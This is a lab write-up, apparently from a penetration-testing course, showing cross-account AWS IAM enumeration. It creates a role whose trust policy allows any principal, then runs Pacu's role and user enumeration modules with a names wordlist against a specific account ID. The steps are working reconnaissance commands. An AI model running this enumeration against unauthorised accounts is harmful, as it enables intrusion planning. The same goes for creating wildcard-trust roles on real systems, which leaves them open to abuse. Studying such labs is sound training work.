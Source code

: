 ### IAM-Cross-Account-Enumeration.md

## Important Note

This exercise was performed with following consideration as terms and conditions from PT Academy

```
EC2 Usage Limits:
t2.micro is allowed in the instance type
The maximum allowed EBS volume size is 16 GB
The maximum allowed EBS IOPS size is 150
Total running instance at any time must not exceed the count of 5
Total instances launched during a lab session must not exceed the count of 10

S3 Usage Limits:
Total S3 bucket at any time must not exceed the count of 5
The total size of a bucket must not exceed 512 MB
The number of objects in a bucket must not exceed the count of 10000

DynamoDB Usage Limits:
Total tables at any time must not exceed the count of 5
The maximum allowed Write Capacity Units is 5
The maximum allowed Read Capacity Units is 5
On-demand DynamoDB tables are not allowed, only provisioned DynamoDB table must be created

Lambda Usage Limits:
The lambda functions at any time must not exceed the count of 5
The maximum allowed memory for a lambda function is 256 MB
The maximum allowed timeout of a lambda function is 120 seconds (2 Minutes)

```

First step is to configure the credentials with `aws configure --profile <name>`

Then, create a `JSON` file with the following content:

```
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": {
      "AWS": "*"
    },
      "Action": "sts:AssumeRole",
    "Condition": {}
    }
  ]
}
```
Create a role on the AWS account using AWS CLI using the forged policy. `aws iam create-role --role-name jllRole --assume-role-policy-document file://jllAssumeRole.json --profile PTAcademyJllerena`

![image](https://user-images.githubusercontent.com/46797181/222337466-6cbaef93-f03c-4454-bfa8-621e4a0f5a10.png)

Next step is to use the tool PACU https://github.com/RhinoSecurityLabs/pacu and follow the instructions to install. In my case I installed with `pip3 install pacu`

Then, run pacu and set the PT Academy credentials with `set_keys`
![image](https://user-images.githubusercontent.com/46797181/222338074-b9c84be8-efba-457e-abd2-199a877cd9dc.png)

To list PACU modules run `list`
![image](https://user-images.githubusercontent.com/46797181/222340458-606f8463-b03d-4fdf-b5fd-2b63a575a694.png)

As mentioned in the description, download the names wordlist `wget https://raw.githubusercontent.com/jeswinMathai/wordlist/main/names.txt`
Lets append `-ad` with 

```
#Linux
sed -i 's/^/ad-/g' names.txt    
#Mac OS
sed -i '' 's/^/ad-/g' names.txt

```
![image](https://user-images.githubusercontent.com/46797181/222341732-12f7feb6-4beb-45b3-9f71-4bedfd70baed.png)

Run the pacu module to enumerate roles `run iam__enum_roles --role-name jllRole  --account-id 276384657722 --word-list names.txt` 

Our profile is from a different account and we are able to enumerate another account which is 276384657722 

![image](https://user-images.githubusercontent.com/46797181/222343186-2f1077cb-c852-4ada-a88f-dd42dde03a6a.png)

For users, execute `run iam__enum_users --role-name jllRole  --account-id 276384657722 --word-list names.txt` 

![image](https://user-images.githubusercontent.com/46797181/222344831-2eb980b3-8ad2-4e86-82e3-a4df0690c9e5.png)
